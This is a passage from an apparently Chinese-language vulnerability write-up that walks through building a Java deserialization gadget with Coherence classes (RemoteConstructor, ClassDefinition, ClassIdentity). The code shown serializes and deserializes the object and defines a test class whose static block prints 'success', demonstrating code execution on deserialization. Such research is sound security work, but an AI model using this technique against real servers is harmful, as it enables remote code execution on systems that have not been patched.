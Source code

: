 新框架代码如下：

```
public class App2 `{`
public static void main(String[] args) throws NotFoundException, IOException, CannotCompileException `{`

ClassIdentity classIdentity = new ClassIdentity();

        ClassDefinition classDefinition = new ClassDefinition(
                classIdentity,
new byte[]`{``}`

);

        RemoteConstructor remoteConstructor = new RemoteConstructor(
                classDefinition,
                new Object[]`{``}`
);

byte[] serialize= Serializables.serialize(remoteConstructor);

        try `{`
            Serializables.deserialize(serialize);
        `}` catch (ClassNotFoundException e) `{`
            e.printStackTrace();
`}`

    `}`
`}`
```

还是null，说明要对classIdentity也进行赋值初始化，classIdentity的构造函数如下：

```
public ClassIdentity(Class&lt;?&gt; clazz) `{`
        this(clazz.getPackage().getName().replace('.', '/'), clazz.getName().substring(clazz.getName().lastIndexOf(46) + 1), Base.toHex(md5(clazz)));
`}`

    protected ClassIdentity(String sPackage, String sBaseName, String sVersion) `{`
        this.m_sPackage = sPackage;
        this.m_sBaseName = sBaseName;
        this.m_sVersion = sVersion;
`}`
```

可知ClassIdentity是一个new class。我们再同目录下创建一个test1的类。代码如下：

```
package org.iiop;

public class test1`{`
    static `{`
        System.out.println("success");
`}`

`}`
```
